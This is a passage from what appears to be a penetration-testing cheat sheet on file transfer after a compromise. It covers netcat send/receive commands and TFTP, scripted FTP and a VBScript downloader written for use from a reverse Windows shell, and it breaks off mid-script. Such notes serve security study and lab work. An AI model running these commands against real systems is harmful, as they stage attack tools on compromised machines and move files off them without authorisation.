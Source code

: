 ### <span id="anchor-48"></span>Transfer Files

#### <span id="anchor-49"></span>Transfer Files Using NetCat (nc)

#### <span id="anchor-50"></span>Receiving

```
nc -l -p **&lt;port&gt;** &gt; **&lt;filename&gt;**
```

#### <span id="anchor-51"></span>Sending

```
nc **&lt;address&gt;** **&lt;port&gt;** &lt; **&lt;filename&gt;**
```

#### <span id="anchor-52"></span>TFTP (from reverse Windows shell)

```
tftp **&lt;ipaddress&gt;** GET **&lt;filename&gt;**
```

#### <span id="anchor-53"></span>FTP (from reverse Windows shell)

```
echo open <strong>&lt;ipaddress&gt;</strong> 21&gt; ftp.txt
echo USER offsec&gt;&gt; ftp.txt
echo <strong>&lt;password&gt;</strong>&gt;&gt; ftp.txt
echo bin &gt;&gt; ftp.txt
echo GET <strong>&lt;filename&gt;</strong> &gt;&gt; ftp.txt
echo bye &gt;&gt; ftp.txt

ftp –v -n -s:ftp.txt</p></td>
```

#### <span id="anchor-54"></span>VBScript (from reverse Windows shell)

Usage: cscript http://**&lt;ipaddress&gt;**/**&lt;file&gt;**
**&lt;localfilename&gt;**

```
echo strUrl = WScript.Arguments.Item(0) &gt; wget.vbs
echo StrFile = WScript.Arguments.Item(1) &gt;&gt; wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 &gt;&gt; wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 &gt;&gt; wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 &gt;&gt; wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 &gt;&gt; wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs
echo Err.Clear &gt;&gt; wget.vbs
echo Set http = Nothing &gt;&gt; wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") &gt;&gt; wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") &gt;&gt; wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") &gt;&gt; wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") &gt;&gt; wget.vbs
echo http.Open "GET", strURL, False &gt;&gt; wget.vbs
echo http.Send &gt;&gt; wget.vbs
echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs
echo Set http = Nothing &gt;&gt; wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") &gt;&gt; wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) &gt;&gt; wget.vbs
echo strData = "" &gt;&gt; wget.vbs
echo strBuffer = "" &gt;&gt; wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) &gt;&gt; wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) &gt;&gt; wget.vbs
```